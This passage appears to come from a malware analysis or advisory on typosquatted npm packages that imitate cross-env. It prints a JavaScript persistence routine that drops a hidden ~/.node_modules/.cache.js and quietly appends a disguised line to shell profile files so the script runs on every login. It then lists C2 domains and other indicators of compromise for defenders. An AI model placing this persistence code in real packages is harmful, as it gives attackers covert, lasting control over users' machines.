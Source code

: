 ### Persistence Mechanisms

Some variants of the malicious packages attempted to establish persistence:

javascript

```javascript
// Create a hidden file in home directory
const persistencePath = path.join(os.homedir(), '.node_modules', '.cache.js');

// Ensure directory exists
fs.mkdirSync(path.dirname(persistencePath), { recursive: true });

// Write malicious script
fs.writeFileSync(persistencePath, maliciousCode);

// Create execution by modifying profile files
const profiles = ['.bashrc', '.bash_profile', '.zshrc'].map(p => path.join(os.homedir(), p));

profiles.forEach(profile => {
  if (fs.existsSync(profile)) {
    try {
      const content = fs.readFileSync(profile, 'utf8');
      if (!content.includes('.node_modules/.cache.js')) {
        fs.appendFileSync(profile, '\n# Node.js cache helper\nnode ~/.node_modules/.cache.js &>/dev/null\n');
      }
    } catch (e) {}
  }
});
```

## Indicators of Compromise

### Package Information

- **Names**: crossenv, cross_env, cros-env, cross-ev, cr0ss-env
- **Versions**: Various, often matching the legitimate package versions
- **npm URLs**: All removed from the registry

### Network Indicators

- C2 Domains:
    - data-collector.malicious-domain.com
    - api.node-metrics.com
    - stats.npm-package.info
    - collector.js-track.com

### Filesystem Indicators

- Unexpected files in user home directory: ~/.node_modules/.cache.js
- Modifications to shell profile files (.bashrc, .bash_profile, .zshrc)
- Unexpected outbound HTTPS connections from Node.js processes
- Suspicious curl/wget requests in npm postinstall scripts
